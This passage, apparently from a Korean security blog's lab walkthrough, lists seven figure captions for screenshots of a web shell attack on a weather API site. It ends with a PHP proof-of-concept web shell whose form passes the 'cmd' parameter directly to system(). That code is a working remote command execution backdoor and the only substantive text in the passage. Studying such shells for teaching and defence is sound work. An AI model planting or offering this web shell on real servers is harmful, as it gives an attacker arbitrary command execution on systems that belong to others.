 <figure>
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2F27sNp%2Fbtrd14IxI5t%2FAL9Wkve4Pp1Cwoez5Qvpjk%2Fimg.png" alt="Weather API Web Sites - Main">
<figcaption>Fig 29. Web Sehll 공격 (1/7)</figcaption>
</figure>

<figure>
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbdQKS8%2FbtrdZVst5GP%2FkTMGb8EDpXYPOXKScnpgNk%2Fimg.png" alt="Weather API Web Sites - Main">
<figcaption>Fig 30. Web Sehll 공격 (2/7)</figcaption>
</figure>

<figure>
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FclHe3H%2Fbtrd1xRKaoj%2FekxHDOk9M0FipXv9bA1KVK%2Fimg.png" alt="Weather API Web Sites - Main">
<figcaption>Fig 31.Web Sehll 공격 (3/7)</figcaption>
</figure>

<figure>
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FZquWV%2Fbtrd2yQaBaP%2FaXvtPCtTfJNvuwMnzqgv01%2Fimg.png" alt="Weather API Web Sites - Main">
<figcaption>Fig 32. Web Sehll 공격 (4/7)</figcaption>
</figure>

<figure>
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FzwmyJ%2Fbtrd0jzVjP6%2F9yEUEVUT3c1cS5giEhUqzk%2Fimg.png" alt="Weather API Web Sites - Main">
<figcaption>Fig 33. Web Sehll 공격 (5/7)</figcaption>
</figure>

<figure>
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fcmb0J4%2Fbtrd0ywQElW%2FAl7yg7nDOOB7eushxfECXK%2Fimg.png" alt="Weather API Web Sites - Main">
<figcaption>Fig 34. Web Sehll 공격 (6/7)</figcaption>
</figure>

<figure>
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FcDhOXg%2Fbtrd0jmmgyR%2Fa5C9dRTM6S0y0KJmHUqeFK%2Fimg.png" alt="Weather API Web Sites - Main">
<figcaption>Fig 35. Web Sehll 공격 (7/7)</figcaption>
</figure>

```php
<?php
//
// PoC: a simple webshell 
// Author: Bonghwan Choi
//

echo 'Enter a Command:<br>';
echo '<form action="">';
echo '<input type=text name="cmd">';
echo '<input type="submit">';
echo '</form>';

if (isset($_GET['cmd'])) {
	system($_GET['cmd']);
}
?>
```
<figcaption>Web Shell 공격 코드</figcaption>
